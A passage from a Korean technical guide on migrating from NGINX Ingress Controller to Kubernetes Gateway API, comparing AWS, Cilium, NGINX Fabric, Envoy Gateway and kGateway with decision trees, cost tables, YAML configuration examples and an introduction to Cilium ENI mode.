- ❌ Self-managed 노드 필요 (EKS Auto Mode 제한)
- ❌ 커뮤니티 의존 (AWS처럼 SLA 없음)
- ❌ Fargate 사용 불가
- ❌ 초기 설정 복잡도

**최적 사용 사례**
- 고성능 요구 환경 (초당 수십만 요청 이상)
- 서비스 메시 통합 계획 (사이드카 없는 메시)
- 네트워크 정책 강화 필요 (L7 정책)
- 하이브리드/멀티클러스터 환경
- eBPF 기술 도입 의지가 있는 팀

---

#### NGINX Gateway Fabric

**장점**
- ✅ NGINX 검증 성능 (20년 이상)
- ✅ 기존 NGINX 지식 활용 가능
- ✅ F5 엔터프라이즈 지원 (NGINX Plus)
- ✅ 멀티클라우드 (AWS, GCP, Azure, 온프레미스)
- ✅ 안정성 입증됨
- ✅ NginxProxy CRD로 NGINX 특화 기능

**단점**
- ❌ 메시 통합 없음 (GAMMA 미지원)
- ❌ L4 라우팅 제한 (TCPRoute, UDPRoute 미지원)
- ❌ 커뮤니티 크기 상대적으로 작음
- ❌ GitHub 이슈 응답 속도 느림

**최적 사용 사례**
- NGINX Ingress Controller 사용 경험 보유
- 멀티클라우드 환경 (AWS + GCP + Azure 동시 사용)
- 엔터프라이즈 지원 필요 (F5 SLA)
- 검증된 안정성 우선
- NGINX Plus 고객

---

#### Envoy Gateway

**장점**
- ✅ CNCF 표준 (Envoy Proxy)
- ✅ 풍부한 L7 기능 (mTLS, ExtAuth, Rate Limiting, Circuit Breaking)
- ✅ Istio 호환 (동일 Envoy 엔진)
- ✅ 활발한 커뮤니티 (CNCF Envoy 프로젝트)
- ✅ Policy Attachment 패턴 (표준 확장 방식)
- ✅ 동적 인프라 프로비저닝

**단점**
- ❌ 상대적으로 신규 프로젝트 (2년)
- ❌ Envoy 복잡성 (학습 곡선 가파름)
- ❌ 프로덕션 사례 상대적으로 적음
- ❌ 자체 관리 필요 (관리형 서비스 없음)

**최적 사용 사례**
- CNCF 표준 추구
- Istio 또는 서비스 메시 통합 계획
- 복잡한 L7 정책 (mTLS, ExtAuth, Circuit Breaking)
- Envoy 커뮤니티 리소스 활용 희망
- 동적 인프라 프로비저닝 필요

---

#### kGateway (CNCF Sandbox)

**장점**
- ✅ 통합 게이트웨이 (API+메시+AI+MCP)
- ✅ AI/ML 워크로드 라우팅
- ✅ CNCF Sandbox (Solo.io 8년 검증)
- ✅ Envoy 최신 기능 빠르게 반영
- ✅ GraphQL Gateway, WebAssembly 확장
- ✅ JWT/OAuth/OIDC 네이티브 지원

**단점**
- ❌ CNCF Sandbox 단계 (아직 Incubating 아님)
- ❌ AI 기능 초기 단계 (프로덕션 사례 제한적)
- ❌ 복잡한 아키텍처 (학습 곡선 높음)
- ❌ 작은 규모 프로젝트에는 오버엔지니어링 가능

**최적 사용 사례**
- AI/ML 워크로드 라우팅 필요
- 통합 트래픽 관리 플랫폼 구축 (API+메시+AI)
- 미래 지향적 아키텍처 (LLM 애플리케이션)
- GraphQL Gateway 필요
- WebAssembly 확장 활용 희망

### 5.8 경로 선택 의사결정 트리

다음 의사결정 트리를 통해 조직에 최적의 솔루션을 선택할 수 있습니다.

```mermaid
flowchart TD
    start([마이그레이션 시작]) --> q1{AWS 서비스 통합이<br/>핵심인가?}

    q1 -->|Yes| q2{운영 부담<br/>최소화 필요?}
    q1 -->|No| q3{서비스 메시<br/>계획 있는가?}

    q2 -->|Yes| aws["✅ AWS Native<br/>(LBC v3 + ALB)"]
    q2 -->|No| q4{고성능 eBPF<br/>필요한가?}

    q4 -->|Yes| cilium["✅ Cilium<br/>Gateway API"]
    q4 -->|No| aws

    q3 -->|Yes| q5{AI/ML 워크로드<br/>라우팅 필요?}
    q3 -->|No| q6{NGINX 경험<br/>활용 필요?}

    q5 -->|Yes| kgw["✅ kGateway<br/>(CNCF Sandbox)"]
    q5 -->|No| q7{Istio 계획<br/>있는가?}

    q7 -->|Yes| envoy["✅ Envoy Gateway"]
    q7 -->|No| cilium

    q6 -->|Yes| nginx["✅ NGINX Gateway<br/>Fabric"]
    q6 -->|No| envoy

    style start fill:#f5f5f5,stroke:#333
    style aws fill:#e6ffe6,stroke:#009900
    style cilium fill:#e6f3ff,stroke:#0066cc
    style nginx fill:#fff0e6,stroke:#cc6600
    style envoy fill:#ffe6e6,stroke:#cc0000
    style kgw fill:#f0e6ff,stroke:#6600cc
```

### 5.9 시나리오별 권장 경로

다음은 일반적인 조직 시나리오에 따른 권장 솔루션입니다.

| 시나리오 | 1순위 | 2순위 | 이유 |
|---------|-------|-------|------|
| **AWS 올인 + 운영 최소화** | AWS Native | Cilium | 관리형, SLA 보장, 운영팀 규모 작음 |
| **고성능 + 관측성** | Cilium | Envoy GW | eBPF 최고 성능, Hubble Service Map |
| **NGINX 경험 + 멀티클라우드** | NGINX Fabric | Envoy GW | 기존 NGINX 지식 활용, 클라우드 중립 |
| **CNCF + 서비스 메시** | Envoy GW | kGateway | Istio 호환, CNCF 표준 준수 |
| **AI/ML + 통합 게이트웨이** | kGateway | Cilium | AI 라우팅, MCP Gateway, 미래 지향 |
| **금융/의료 보안** | AWS Native | Cilium | WAF, Shield, 감사 추적, 컴플라이언스 |
| **스타트업 + 비용 최적화** | Cilium | NGINX/Envoy | 고정 비용, 벤더 종속 회피 |
| **하이브리드/멀티클러스터** | Cilium | kGateway | BGP Control Plane, 멀티사이트 메시 |
| **빠른 PoC (검증)** | AWS Native | NGINX Fabric | 빠른 설정, 관리형, 검증된 안정성 |
| **장기 전략적 투자** | Cilium | Envoy GW | eBPF 미래 기술, CNCF 생태계 |

---

## 6. NGINX 기능별 대안 비교

이 섹션에서는 NGINX Ingress Controller에서 사용하던 8가지 주요 기능을 Gateway API 솔루션에서 어떻게 구현하는지 상세히 비교합니다.

### 6.1 8가지 기능 매핑 종합표

| # | NGINX 기능 | AWS Native | Cilium | NGINX Fabric | Envoy GW | kGateway |
|---|-----------|------------|--------|-------------|----------|----------|
| 1 | Basic Auth | Lambda/JWT | L7 Policy | OIDC Policy | ExtAuth | JWT/OIDC |
| 2 | IP Allowlist | WAF IP Sets + SG | CiliumNetworkPolicy | NginxProxy | SecurityPolicy | RouteOption |
| 3 | Rate Limiting | WAF Rate Rule | L7 Rate Limit | NginxProxy | BackendTrafficPolicy | RouteOption |
| 4 | URL Rewrite | HTTPRoute Filter | HTTPRoute Filter | HTTPRoute Filter | HTTPRoute Filter | HTTPRoute Filter |
| 5 | Body Size | WAF Size Rule | - | NginxProxy | ClientTrafficPolicy | RouteOption |
| 6 | Custom Error | ALB Fixed Response | - | Custom Backend | Direct Response | DirectResponse |
| 7 | Header Routing | HTTPRoute matches | HTTPRoute matches | HTTPRoute matches | HTTPRoute matches | HTTPRoute matches |
| 8 | Cookie Affinity | TG Stickiness | - | Upstream Config | Session Persistence | RouteOption |

**범례**:
- ✅ 네이티브 지원 (별도 도구 불필요)
- ⚠️ 부분 지원 또는 추가 설정 필요
- ❌ 미지원 (별도 솔루션 필요)
- `-` 현재 미지원이지만 로드맵에 포함됨

### 6.2 구현 난이도 비교

각 솔루션에서 NGINX 기능을 구현할 때의 난이도를 평가합니다.

| 기능 | AWS Native | Cilium | NGINX Fabric | Envoy GW | kGateway |
|------|-----------|--------|-------------|----------|----------|
| **Basic Auth** | 중간 | 중간 | 쉬움 | 중간 | 쉬움 |
| **IP Allowlist** | 쉬움 | 쉬움 | 쉬움 | 쉬움 | 쉬움 |
| **Rate Limiting** | 중간 | 중간 | 쉬움 | 쉬움 | 쉬움 |
| **URL Rewrite** | 쉬움 | 쉬움 | 쉬움 | 쉬움 | 쉬움 |
| **Body Size** | 중간 | 어려움 | 쉬움 | 쉬움 | 쉬움 |
| **Custom Error** | 쉬움 | 어려움 | 중간 | 쉬움 | 쉬움 |
| **Header Routing** | 쉬움 | 쉬움 | 쉬움 | 쉬움 | 쉬움 |
| **Cookie Affinity** | 쉬움 | 어려움 | 쉬움 | 중간 | 쉬움 |

**난이도 기준**:
- **쉬움**: 5분 이내, YAML 5-10줄
- **중간**: 15-30분, YAML 20-50줄, 외부 서비스 연동 필요
- **어려움**: 1시간+, 커스텀 개발 또는 복잡한 설정

### 6.3 비용 영향 분석

NGINX Ingress Controller에서 Gateway API로 마이그레이션할 때 기능별 비용 영향을 분석합니다.

#### AWS Native 추가 비용

| 기능 | AWS Native 추가 비용 | 월 예상 비용 |
|------|---------------------|------------|
| **Basic Auth** | Lambda 실행 비용 | ~$2-10 (100만 요청 기준) |
| **IP Allowlist** | WAF IP Set + 규칙 | $5 (Web ACL) + $1 (규칙) = $6 |
| **Rate Limiting** | WAF Rate-Based Rule | $5 (Web ACL) + $1 (규칙) + $0.60/백만 요청 |
| **Body Size** | WAF Body Size Rule | WAF 비용에 포함 |
| **WAF 전체** | Web ACL + 규칙 + 요청 | ~$20-100/월 (트래픽에 따라) |

**비용 최적화 팁**: AWS WAF가 필요한 기능(IP Allowlist, Rate Limiting, Body Size)이 3개 이상이면 AWS Native가 효율적입니다. 1-2개만 필요하면 오픈소스 솔루션이 더 저렴합니다.

#### 오픈소스 추가 비용

| 기능 | 오픈소스 추가 비용 |
|------|-------------------|
| Basic Auth | 없음 (자체 구현) |
| IP Allowlist | 없음 (NetworkPolicy) |
| Rate Limiting | 없음 (L7 Policy) |
| Body Size | 없음 (Proxy Config) |
| 모든 기능 | 없음 (컴퓨팅 리소스만) |

:::tip 비용 최적화 팁
AWS WAF가 필요한 기능(IP Allowlist, Rate Limiting, Body Size)이 3개 이상이면 AWS Native가 WAF 비용 대비 효율적입니다. 1-2개만 필요하면 오픈소스 솔루션에서 무료로 구현할 수 있습니다.
:::

### 6.4 기능별 상세 코드 예제

#### 1. 인증 (Basic Auth 대체)

**AWS Native: JWT 검증 (LBC v3)**

```yaml
# AWS LBC v3의 네이티브 JWT 검증
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: jwt-protected-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api
      filters:
        - type: ExtensionRef
          extensionRef:
            group: eks.amazonaws.com
            kind: JWTAuthorizer
            name: cognito-authorizer
      backendRefs:
        - name: api-service
          port: 8080

---
# JWTAuthorizer CRD (LBC v3 확장)
apiVersion: eks.amazonaws.com/v1
kind: JWTAuthorizer
metadata:
  name: cognito-authorizer
spec:
  issuer: https://cognito-idp.us-west-2.amazonaws.com/us-west-2_ABC123
  audiences:
    - api-gateway-client
  claimsToHeaders:
    - claim: sub
      header: x-user-id
    - claim: email
      header: x-user-email
```

**Envoy Gateway: ExtAuth**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ext-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  extAuth:
    http:
      service:
        name: auth-service
        port: 8080
        # auth-service는 HTTP 200 또는 401 응답
      headersToBackend:
        - x-user-id
        - x-user-role
      backendRefs:
        - name: auth-service
          port: 8080
```

**kGateway: JWT 검증**

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: jwt-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  jwt:
    providers:
      - name: keycloak
        issuer: https://keycloak.example.com/auth/realms/production
        audiences:
          - api-gateway
        jwksUri: https://keycloak.example.com/auth/realms/production/protocol/openid-connect/certs
        claimsToHeaders:
          - claim: sub
            header: x-user-id
          - claim: groups
            header: x-user-groups
```

#### 2. Rate Limiting

**NGINX Gateway Fabric**

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: rate-limit
spec:
  rateLimiting:
    rate: 100r/s  # 초당 100 요청
    burst: 200    # 버스트 200 요청
    noDelay: true # 즉시 제한 적용
    zoneSize: 10m # 메모리 존 크기
```

**Envoy Gateway: Global Rate Limiting**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: rate-limit
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimit:
    type: Global
    global:
      rules:
        - limit:
            requests: 100
            unit: Second
          clientSelectors:
            - headers:
                - name: x-user-id
                  type: Distinct  # 사용자별 제한
```

**kGateway: Rate Limiting**

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: rate-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimitConfigs:
    - actions:
        - genericKey:
            descriptorValue: per-user
        - requestHeaders:
            headerName: x-user-id
            descriptorKey: user_id
      limit:
        dynamicMetadata:
          metadataKey:
            key: rl
            path:
              - key: per-user
        unit: SECOND
        requestsPerUnit: 100
```

**Cilium: L7 Rate Limiting**

```yaml
apiVersion: cilium.io/v2
kind: CiliumEnvoyConfig
metadata:
  name: rate-limit
spec:
  services:
    - name: api-service
      namespace: production
  backendServices:
    - name: api-service
      namespace: production
      number:
        - "8080"
  resources:
    - "@type": type.googleapis.com/envoy.config.listener.v3.Listener
      name: envoy-lb-listener
      filterChains:
        - filters:
            - name: envoy.filters.network.http_connection_manager
              typedConfig:
                "@type": type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager
                httpFilters:
                  - name: envoy.filters.http.local_ratelimit
                    typedConfig:
                      "@type": type.googleapis.com/envoy.extensions.filters.http.local_ratelimit.v3.LocalRateLimit
                      statPrefix: http_local_rate_limiter
                      tokenBucket:
                        maxTokens: 200
                        tokensPerFill: 100
                        fillInterval: 1s
```

#### 3. IP 제어 (IP Allowlist)

**AWS Native: WAF IP Sets**

```yaml
# ALB Ingress에 WAF 연결 (LBC v3)
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    aws.load-balancer.waf-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/ip-allowlist/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
    - name: http
      port: 80
      protocol: HTTP

---
# AWS WAF IP Set은 AWS Console 또는 CloudFormation으로 생성
# IP Set ARN을 위 annotation에 지정
```

**Cilium: CiliumNetworkPolicy**

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: ip-allowlist
  namespace: production
spec:
  endpointSelector:
    matchLabels:
      app: api-service
  ingress:
    - fromCIDR:
        - "10.0.0.0/8"        # VPC 내부
        - "192.168.1.0/24"    # 사무실
        - "203.0.113.100/32"  # 특정 IP
      toPorts:
        - ports:
            - port: "8080"
              protocol: TCP
```

**NGINX Gateway Fabric**

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: ip-filter
spec:
  ipFiltering:
    allow:
      - "10.0.0.0/8"
      - "192.168.1.0/24"
    deny:
      - "203.0.113.0/24"  # 차단할 IP 대역
```

**Envoy Gateway: SecurityPolicy**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ip-allowlist
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  authorization:
    rules:
      - action: ALLOW
        from:
          - source:
              principals:
                - "10.0.0.0/8"
                - "192.168.1.0/24"
      - action: DENY
        from:
          - source:
              principals:
                - "*"
```

#### 4. URL Rewrite — Gateway API 표준 (모든 구현체 공통)

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: api-rewrite
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    # /api/v1/users → /users
    - matches:
        - path:
            type: PathPrefix
            value: /api/v1
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /
      backendRefs:
        - name: api-service
          port: 8080

    # /old-api/users → /v2/users
    - matches:
        - path:
            type: PathPrefix
            value: /old-api
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /v2
      backendRefs:
        - name: api-service-v2
          port: 8080
```

이 예제는 모든 Gateway API 구현체(AWS Native, Cilium, NGINX, Envoy, kGateway)에서 동일하게 작동합니다.

#### 5. Header 조작

**Gateway API 표준 (모든 구현체 공통)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: header-manipulation
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            value: /api
      filters:
        # 요청 헤더 추가
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: X-Custom-Header
                value: "gateway-api"
              - name: X-Forwarded-Proto
                value: "https"
            remove:
              - Authorization  # 기존 Authorization 제거
        # 응답 헤더 추가
        - type: ResponseHeaderModifier
          responseHeaderModifier:
            add:
              - name: X-Server
                value: "gateway-api"
              - name: Strict-Transport-Security
                value: "max-age=31536000; includeSubDomains"
      backendRefs:
        - name: api-service
          port: 8080
```

#### 6. 세션 어피니티 (Cookie-based)

**AWS Native: Target Group Stickiness**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: sticky-session
  annotations:
    aws.load-balancer.target-group.stickiness.enabled: "true"
    aws.load-balancer.target-group.stickiness.type: "lb_cookie"
    aws.load-balancer.target-group.stickiness.duration: "3600"
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - backendRefs:
        - name: api-service
          port: 8080
```

**kGateway: Session Persistence**

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: session-affinity
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  sessionAffinity:
    cookieBased:
      cookie:
        name: JSESSIONID
        ttl: 3600s
        path: /
```

#### 7. 요청 본문 크기 제한

**NGINX Gateway Fabric**

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: body-size-limit
spec:
  clientMaxBodySize: 10m  # 최대 10MB
```

**Envoy Gateway: ClientTrafficPolicy**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: ClientTrafficPolicy
metadata:
  name: body-size-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  http1:
    http10Disabled: false
    maxRequestHeadersKb: 60
  connection:
    bufferLimitBytes: 10485760  # 10MB
```

**AWS Native: WAF Body Size Rule**

AWS WAF Rule을 사용하여 요청 본문 크기를 제한합니다 (Console/CloudFormation 설정).

#### 8. 커스텀 에러 페이지

**Gateway API 표준 방식**

```yaml
# 에러 페이지를 제공하는 백엔드 서비스
apiVersion: v1
kind: Service
metadata:
  name: error-page-service
spec:
  selector:
    app: error-pages
  ports:
    - port: 80

---
# 에러 발생 시 error-page-service로 라우팅
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: error-route
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            value: /error
      backendRefs:
        - name: error-page-service
          port: 80
```

**Envoy Gateway: Direct Response**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: custom-error
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  faultInjection:
    - match:
        headers:
          - name: x-trigger-error
      abort:
        httpStatus: 503
        percentage: 100

---
# HTTPRoute에서 Fixed Response
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: error-response
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            value: /maintenance
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.envoyproxy.io
            kind: DirectResponse
            name: maintenance-response

---
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: DirectResponse
metadata:
  name: maintenance-response
spec:
  statusCode: 503
  body:
    type: Inline
    inline: |
      <html>
      <body>
        <h1>Service Under Maintenance</h1>
        <p>Please try again later.</p>
      </body>
      </html>
```

### 6.5 마이그레이션 체크리스트

NGINX Ingress Controller에서 Gateway API로 마이그레이션할 때 다음 체크리스트를 활용하십시오.

#### 기능 매핑 확인

- [ ] Basic Auth → JWT/ExtAuth로 대체 방법 결정
- [ ] IP Allowlist → NetworkPolicy 또는 WAF 선택
- [ ] Rate Limiting → L7 Policy 또는 WAF Rate Rule
- [ ] URL Rewrite → HTTPRoute URLRewrite Filter
- [ ] Header Routing → HTTPRoute matches
- [ ] Cookie Affinity → Target Group Stickiness 또는 RouteOption
- [ ] Body Size Limit → Proxy Config 또는 WAF
- [ ] Custom Error → Fixed Response 또는 Error Service

#### 솔루션 선택 확인

- [ ] 의사결정 트리로 최적 솔루션 선택 완료
- [ ] 비용 영향 분석 완료 (WAF 비용 vs 오픈소스)
- [ ] 운영 부담 평가 완료 (관리형 vs Self-managed)
- [ ] 서비스 메시 통합 계획 여부 확인
- [ ] AI/ML 워크로드 계획 여부 확인

#### 코드 작성 확인

- [ ] GatewayClass 정의
- [ ] Gateway 생성 (리스너 포트, 프로토콜, TLS)
- [ ] HTTPRoute 변환 (기존 Ingress → HTTPRoute)
- [ ] 확장 CRD 작성 (NginxProxy, SecurityPolicy, RouteOption 등)
- [ ] TLS Secret 마이그레이션

#### 테스트 확인

- [ ] 개발 환경 배포 및 검증
- [ ] 기능별 동작 테스트 (인증, Rate Limiting, URL Rewrite 등)
- [ ] 성능 테스트 (처리량, 지연시간)
- [ ] 장애 시뮬레이션 (백엔드 다운, 네트워크 단절)
- [ ] 롤백 계획 수립

#### 프로덕션 배포

- [ ] Blue-Green 또는 Canary 배포 전략 수립
- [ ] 모니터링 및 알림 설정 (Prometheus, CloudWatch)
- [ ] 트래픽 점진적 전환 (Weight 조정)
- [ ] 운영 문서 업데이트
- [ ] 팀 교육 완료

## 7. Cilium ENI 모드 + Gateway API 심화 구성

### 7.1 Cilium ENI 모드란?

Cilium ENI 모드는 AWS의 Elastic Network Interface를 직접 활용하여 파드에 VPC IP 주소를 할당하는 고성능 네트워킹 솔루션입니다. 전통적인 오버레이 네트워크와 달리, ENI 모드는 다음과 같은 특징을 제공합니다.

#### 핵심 특징

**AWS ENI 직접 사용**<br/>
각 파드가 VPC의 실제 IP 주소를 직접 할당받아 AWS 네트워크 스택과 완전히 통합됩니다. 이를 통해 Security Groups, NACLs, VPC Flow Logs 등 AWS 네이티브 네트워킹 기능을 파드 레벨에서 직접 활용할 수 있습니다.

**eBPF 기반 고성능 네트워킹**<br/>
Cilium은 리눅스 커널의 eBPF(extended Berkeley Packet Filter) 기술을 활용하여 패킷 처리를 커널 레벨에서 수행합니다. 이는 전통적인 iptables 기반 솔루션 대비 10배 이상의 성능 향상을 제공하며, CPU 오버헤드를 최소화합니다.



**네이티브 라우팅 (오버레이 오버헤드 제거)**<br/>
VXLAN이나 Geneve와 같은 오버레이 캡슐화를 사용하지 않고, VPC 라우팅 테이블을 직접 활용합니다. 이를 통해 네트워크 홉을 최소화하고 MTU 문제를 원천적으로 방지합니다.

:::tip
Cilium ENI 모드는 AWS EKS에서 최고 성능을 달성하기 위한 권장 구성입니다. Datadog의 벤치마크에 따르면, ENI 모드는 오버레이 모드 대비 레이턴시를 40% 감소시키고 처리량을 35% 향상시킵니다.
:::

### 7.2 아키텍처 오버뷰

Cilium ENI 모드와 Gateway API를 결합한 아키텍처는 다음과 같이 구성됩니다.



#### 주요 구성 요소

**1. Network Load Balancer (NLB)**
- AWS의 관리형 L4 로드밸런서
- 극히 낮은 레이턴시 (마이크로초 단위)
- Cross-Zone Load Balancing 지원
- Static IP 또는 Elastic IP 할당 가능
- TLS 패스스루 모드 지원

**2. eBPF TPROXY (Transparent Proxy)**
- XDP (eXpress Data Path) 계층에서 패킷 가로채기
- 커널 우회를 통한 초저지연 처리
- 연결 추적 테이블을 eBPF 맵으로 관리
- CPU 코어당 독립적인 처리 (락 없는 설계)

**3. Cilium Envoy (L7 Gateway)**
- Envoy Proxy 기반 L7 처리 엔진
- HTTPRoute, TLSRoute 등 Gateway API 리소스 구현
- 동적 리스너/라우트 구성 (xDS API)
- 요청/응답 변환, 헤더 조작, rate limiting

**4. Cilium Operator**
- ENI 생성 및 삭제 오케스트레이션
- IP 주소 풀 관리 (Prefix Delegation 포함)
- 클러스터 전체 정책 동기화
- CiliumNode CRD 상태 관리

**5. Cilium Agent (DaemonSet)**
- 각 노드에서 eBPF 프로그램 로드 및 관리
- CNI 플러그인 구현
- 엔드포인트 상태 추적
- 네트워크 정책 적용

**6. ENI (Elastic Network Interface)**
- AWS VPC 네트워크 인터페이스
- 인스턴스 타입별 최대 ENI 수 제한 (예: m5.large = 3개)
- ENI당 최대 IP 수 제한 (예: m5.large = 10개/ENI)
- Prefix Delegation 사용 시 ENI당 최대 16개 /28 블록

**7. Hubble (Observability)**
- 네트워크 플로우 실시간 가시화
- 서비스 간 의존성 맵 자동 생성
- L7 프로토콜 가시성 (HTTP, gRPC, Kafka, DNS)
- Prometheus 메트릭 내보내기

#### 트래픽 흐름 4단계

